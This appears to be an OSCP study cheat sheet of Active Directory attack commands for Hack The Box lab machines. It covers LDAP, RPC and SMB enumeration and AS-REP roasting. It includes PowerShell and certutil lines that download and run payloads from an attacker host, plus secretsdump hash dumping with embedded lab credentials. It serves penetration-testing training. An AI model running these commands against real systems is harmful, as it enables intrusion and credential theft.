 # OSCP Note


## DNS Enum:
```
dig  @10.10.10.161 htb.local
=> Asign: dig  @10.10.10.161 forest.htb.local
```
## Ldap Enum:
```
ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts
ldapsearch -H ldap://10.10.10.192 -x -b "DC=BLACKFIELD,DC=local"

Advance:

ldapsearch -h 10.10.10.192 -D cn=support,dc=blackfield,dc=local -w '#00^BlackKnight' -x -b 'dc=blackfield,dc=local' (With Cred)

ldapsearch -H ldap://hope.windcorp.htb -b "DC=WINDCORP,DC=HTB" sAMAccountName "CN=Users,DC=windcorp,DC=HTB" | grep sAMAccountName | awk '{print $2}' > domainusers (Domain Users Enum)

ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" > ldap-anonymous
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=person)' > ldap-people
```
## RPC Enum
```
rpcclient -U "" -N 10.10.10.161

Example:
    enumdomusers
    enumdomgroups
    querygroup 0x200
    querygroupmem 0x200
```

## AS-Rep Roasting Enum
```
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

## SMB Enum
```
Enum:

smbmap -H 10.10.10.161 
smbmap -H 10.10.10.161 -u svc-alfresco -p s3rvice -R IPC$

Login:
smbclient \\\\10.10.10.161\\IPC$ -U 'svc-alfresco%s3rvice'

```

## Windows
### Download File with Powershell
```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.8/SharpHound/ps1') (Download and run script)
```


## PE

### BloodHound
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.8/SharpHound/ps1');Invoke-BloodHound (Just for .ps1)
```

### Dump Hash (Generetic PE)
```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```
